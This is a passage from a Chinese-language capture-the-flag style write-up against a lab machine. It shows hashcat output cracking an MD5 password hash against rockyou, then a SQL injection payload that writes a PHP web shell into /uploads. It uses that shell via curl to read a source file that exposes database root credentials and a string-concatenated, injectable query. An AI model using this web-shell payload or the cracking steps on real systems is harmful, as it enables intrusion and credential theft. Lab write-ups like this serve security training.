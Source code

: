     Optimizers applied:
    * Zero-Byte
    * Early-Skip
    * Not-Salted
    * Not-Iterated
    * Single-Hash
    * Single-Salt
    * Raw-Hash
    
    ATTENTION! Pure (unoptimized) backend kernels selected.
    Pure kernels can crack longer passwords, but drastically reduce performance.
    If you want to switch to optimized kernels, append -O to your commandline.
    See the above message to find out about the exact limits.
    
    Watchdog: Temperature abort trigger set to 90c
    
    Host memory required for this attack: 1 MB
    
    Dictionary cache hit:
    * Filename..: /usr/share/wordlists/rockyou.txt
    * Passwords.: 14344385
    * Bytes.....: 139921507
    * Keyspace..: 14344385
    
    c6d6bd7ebf806f43c76acc3681703b81:omega                    
                                                             
    ```

-   得到用户名以及密码：ramses，密码：omega

### sql注入2

-   使用sql注入直接写入一个`php`的小马到之前探测到的`/uploads`文件夹下。

-   >   " union select "<?php system($_GET['cmd']); ?>","","" into outfile "/var/www/html/uploads/shell.php" -- - 

-   尝试访问

-   ![image-20230729124025790](https://raw.githubusercontent.com/r0o983/images/main/image-20230729124025790.png)

-   读取当前数据库的配置文件,当前sql查询页面`kzMb5nVYJw/420search.php`

-   ```shell
    ❯ curl http://192.168.2.147/uploads/shell1.php\?cmd\=cat%20/var/www/html/kzMb5nVYJw/420search.php 
    1       ramses
    2       isis    employee
    <?php
    $word = $_GET["usrtosearch"];
    
    $dbhost = 'localhost:3036';
    $dbuser = 'root';
    $dbpass = 'sunnyvale';
    $conn = mysql_connect($dbhost, $dbuser, $dbpass);
    if(! $conn )
    {
      die('Could not connect: ' . mysql_error());
    }
    $sql = 'SELECT id, user, position FROM users WHERE user LIKE "%'.$word.'%" ';
    